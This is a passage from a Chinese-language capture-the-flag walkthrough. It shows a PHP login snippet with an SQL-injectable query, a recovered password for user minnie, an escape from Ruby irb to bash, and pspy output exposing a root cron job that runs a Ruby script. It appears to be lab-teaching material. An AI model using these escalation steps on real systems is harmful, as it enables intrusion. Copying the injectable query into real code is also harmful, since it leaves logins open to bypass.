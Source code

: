 ```Bash
-  die("Connection failed: " . $conn->connect\_error);
-}
-
-$login\_username=$\_POST['username'];
-$login\_password=$\_POST['password'];
-
-$sql = "SELECT \* FROM users WHERE Username = '$login\_username' AND Password = '$login\_password' ";
-$result = mysqli\_query($con,$sql);
-
-if(sqmli\_num\_rows($result)<1){i
-       $\_SESSION['login']=$user\_id;
-       header('Location: http://ch4rm.pw/dashboard');
-}
-else{
-       $error = True;
-}
-
 ?>

 <html>
(END)
```
这里获取到一个密码

```Bash
jd92khn49w
```
经过尝试这是minnie用户的密码

## 6. 再提权root

su到minnie后发现minnie用户是一个Ruby Interactive shell （irb）

使用命令切换到一个bash shell

```Bash
system("bash")
```


```Bash
H0wc00l\_i5\_Byp@@s1n9
```
上面的几个提权检测没有东西

我们用pspy64看一下

```Bash
2024/11/18 21:58:01 CMD: UID=0    PID=2681   | /bin/sh -c /usr/bin/ruby /root/bundle.rb
2024/11/18 21:58:01 CMD: UID=0    PID=2680   | /bin/sh -c /usr/bin/ruby /root/bundle.rb
2024/11/18 21:58:01 CMD: UID=0    PID=2679   | /usr/sbin/CRON -f
2024/11/18 21:58:01 CMD: UID=0    PID=2682   | /bin/sh /sbin/dhclient-script
2024/11/18 21:58:01 CMD: UID=0    PID=2687   | /bin/sh /sbin/resolvconf -a enp0s3.dhclient
2024/11/18 21:58:01 CMD: UID=0    PID=2685   | /bin/sh /sbin/resolvconf -a enp0s3.dhclient
2024/11/18 21:58:01 CMD: UID=0    PID=2693   | /usr/bin/ruby /root/bundle.rb
```
发现其每隔一段时间会运行一个ruby的脚本bundle.rb
